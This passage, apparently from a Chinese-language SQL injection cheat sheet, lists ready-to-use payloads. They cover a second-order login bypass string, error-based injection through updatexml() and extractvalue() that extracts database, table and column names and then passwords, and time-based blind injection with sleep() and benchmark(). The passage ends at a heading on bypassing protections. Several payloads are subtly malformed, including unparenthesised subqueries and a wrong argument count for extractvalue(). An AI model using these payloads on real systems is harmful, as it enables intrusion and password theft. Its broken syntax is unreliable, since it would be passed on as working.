 ```python
# 1、一次
admin'#
```

```python
# 2、二次
直接修改密码
```

#### 4、报错

```mysql
# updatexml() + concat()
# 1、查询库名
' and updatexml(1,concat(database()),1) #
# 2、查询表名
' and updatexml(1,concat(select table_name from information_schema.tables where table_schema=database),1) #
# 3、查询列名
' and updatexml(1,concat(select column_name from information_schema.columns where table_name='[表名]'),1) #
# 4、查询数据
' and updatexml(1,concat(select password from '[表名]'),1)
```

```mysql
# extractvalue() + concat()
# 1、查询库名
' and extractvalue(1,concat(database()),1) #
# 2、查询表名
' and extractvalue(1,concat(select table_name from information_schema.tables where table_schema=database),1) #
# 3、查询列名
' and extractvalue(1,concat(select column_name from information_schema.columns where table_name='[表名]'),1) #
# 4、查询数据
' and extractvalue(1,concat(select password from '[表名]'),1)
```

#### 6、时间盲注

```python
# sleep()
and sleep(5) --+
```

```python
# benchmark()
and benchmark(10000000,sha(1)); --+
```



### 五、绕过防护

#### 1、注释
